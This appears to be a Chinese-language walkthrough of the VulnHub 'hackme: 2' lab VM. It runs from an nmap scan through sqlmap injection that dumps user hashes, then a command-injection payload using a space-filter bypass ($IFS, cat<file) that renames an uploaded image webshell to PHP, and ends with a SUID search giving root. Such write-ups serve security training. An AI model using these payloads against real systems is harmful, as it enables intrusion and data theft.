







# HACKME: 2

> https://download.vulnhub.com/hackme/hackme2-DHCP.ova

靶场IP：`192.168.32.209`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.209                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 03:10 EDT
Nmap scan report for 192.168.32.209
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 00:0C:29:22:CA:D2 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds
```

访问80端口



注册测试用户


输入框有SQL注入漏洞



```
POST /welcome.php HTTP/1.1
Host: 192.168.32.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.32.209/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://192.168.32.209
Connection: close
Cookie: PHPSESSID=d82p89ea990dqrg60r28uao5al
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

search=1

```

使用sqlmap进行注入，找到`superadmin/Uncrackable`

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt  --level 5 --risk 3 --dbms=mysql -p search --tamper space2comment.py -D webapphacking -T users --dump

Database: webapphacking
Table: users
[7 entries]
+----+--------------+------------+----------------+----------------------------------+
| id | name         | user       | address        | pasword                          |
+----+--------------+------------+----------------+----------------------------------+
| 1  | David        | user1      | Newton Circles | 5d41402abc4b2a76b9719d911017c592 |
| 2  | Beckham      | user2      | Kensington     | 6269c4f71a55b24bad0f0267d9be5508 |
| 3  | anonymous    | user3      | anonymous      | 0f359740bd1cda994f8b55330c86d845 |
| 10 | testismyname | test       | testaddress    | 05a671c66aefea124cc08b76ea6d30bb |
| 11 | superadmin   | superadmin | superadmin     | 2386acb2cf356944177746fc92523983 |
| 12 | test1        | test1      | test1          | 05a671c66aefea124cc08b76ea6d30bb |
| 13 | sad          | sectest    | asdas@sad.com  | e10adc3949ba59abbe56e057f20f883e |
+----+--------------+------------+----------------+----------------------------------+

```

使用superadmin用户登录，发现有上传和查询页面。不过上传限制webshell



发现查询框存在命令注入漏洞



我们换其他命令来执行，例如pwd,ls都可以正确执行而cat命令无法执行，猜测其过滤了空格，我们使用`cat<welcomeadmin.php`这个payload来绕过过滤。
可以看到在返回包里泄露的welcomeadmin.php的完整源代码，包括文件上传的绝对路径。



上传图片木马，并且移动文件变成php文件

```
fname=1&lname=system('mv$IFS/var/www/html/uploads/year2020/shell.jpg$IFS/var/www/html/uploads/year2020/shell.php')&search=Search+User
```



寻找suid文件

```
find / -perm -u=s -type f 2>/dev/null
```



发现home目录下有一个可疑的文件，执行一下之后发现顺利get root权限。


